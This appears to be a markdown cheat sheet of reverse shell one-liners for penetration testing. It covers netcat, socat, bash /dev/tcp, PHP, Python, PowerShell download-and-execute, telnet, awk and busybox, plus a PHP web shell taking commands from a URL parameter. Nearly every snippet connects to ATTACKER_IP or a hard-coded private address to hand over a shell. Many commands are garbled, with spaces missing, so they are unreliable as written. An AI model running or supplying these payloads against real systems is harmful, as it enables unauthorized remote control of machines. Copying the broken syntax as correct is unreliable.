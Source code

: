 ```yaml
---
title: Reverse Shells
description:  Commonly used reverse shells
---
```

## Netcat Example 
Setup a listener on the attacking machine:
```bash
$ nc -lvnp <PORT>
```
On the target:
```bash
$ nc <LOCAL-IP> <PORT> -e /bin/bash
```

## Socat Example 
Setup a listener on the attacking machine:
```bash
$ socat TCP-L:<port> -
```
Connect from a Windows Machine:
```bash
$ socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
- The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

Connect from a Linux Machine:
```bash
$ socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


## Bash 
### Normal Bash Reverse Shell

```bash
$ bash-i>&/dev/tcp/ATTACKER_IP/443 0>&1
```

This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP (ATTACKER_IP) on port 443. The >& operator combines both standard output and standard error.

### Bash Read Line Reverse Shell

```bash
$ exec5<>/dev/tcp/ATTACKER_IP/443;cat<&5|whilereadline;do$line2>&5>&5;done
```
This reverse shell creates a new file descriptor (5 in this case)  and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.

### Bash With File Descriptor 196 Reverse Shell

```bash
$ 0<&196;exec196<>/dev/tcp/ATTACKER_IP/443;sh<&196>&1962>&196
```
This reverse shell uses a file descriptor (196 in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.

### Bash With File Descriptor 5 Reverse Shell

```bash
$ bash-i5<>/dev/tcp/ATTACKER_IP/443 0<&51>&52>&5
```
Similar to the first example, this command opens a shell (bash -i), but it uses file descriptor 5 for input and output, enabling an interactive session over the TCP connection.

## PHP

Basic PHP reverse shell

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

### PHP Reverse Shell Using the exec Function

```php
$ php -r'$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
```
- This reverse shell creates a socket connection to the attacker's IP on port 443 and uses the exec function to execute a shell, redirecting standard input and output.

### PHP Reverse Shell Using the shell_exec Function

```php
$ php-r'$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```
- Similar to the previous command, but uses the shell_exec function.

### PHP Reverse Shell Using the system Function

```php
$ php -r'$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
```
- This reverse shell employs the system function, which executes the command and outputs the result to the browser.

### PHP Reverse Shell Using the passthru Function

```php
$ php-r'$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```
- The passthru function executes a command and sends raw output back to the browser. This is useful when working with binary data.

### PHP Reverse Shell Using the popen Function
```php
$ php -r'$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'
```
- This reverse shell uses popen to open a process file pointer, allowing the shell to be executed.

### PHP SOCK
Add to the top of a PHP file!
```php
$sock=fsockopen("10.6.57.139,1224");
exec("/bin/bash <&3 >&3 2>&3");
```

## Python

### Python Reverse Shell by Exporting Environment Variables
```python
exportRHOST="ATTACKER_IP";
exportRPORT=443;
python -c'import sys,socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("bash")'
```
- This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

### Python Reverse Shell Using the subprocess Module
```python
python -c'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.4.99.209",443));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("bash")'
```
- This reverse shell uses the subprocess module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.
- The following script works as well.
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.6.57.139",1223));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
### Short Python Reverse Shell
```python
python -c'import os,pty,socket;
s=socket.socket();s.connect(("ATTACKER_IP",443));
[os.dup2(s.fileno(),f)for f in(0,1,2)];
pty.spawn("bash")'
```
- This reverse shell creates a socket (s), connects to the attacker, and redirects standard input, output, and error to the socket using os.dup2().


## Powershell

- Payload can be found at [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```powershell
$ powershell IEX (New-Object Net.WebClient).DownloadString('https://10.6.57.139:8080
/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp.ps1 -Reverse -IPAddress 10.6.57.139 -Port 1223
```

## Others

### Telnet
```bash
$ TF=$(mktemp -u);mkfifo$TF&&telnet ATTACKER_IP443 0<$TF|sh1>$TF
```
- This reverse shell creates a named pipe using mkfifo and connects to the attacker via Telnet on IP ATTACKER_IP and port 443. 

### AWK
```bash
$ awk'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}'/dev/null
- This reverse shell uses AWK’s built-in TCP capabilities to connect to ATTACKER_IP:443. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.
```

### BusyBox
```bash
$ busybox ncATTACKER_IP 443-esh
```
- This BusyBox reverse shell uses Netcat (nc) to connect to the attacker at ATTACKER_IP:443. Once connected, it executes /bin/sh, exposing the command line to the attacker.

## Resources

- [https://www.revshells.com/](https://www.revshells.com/)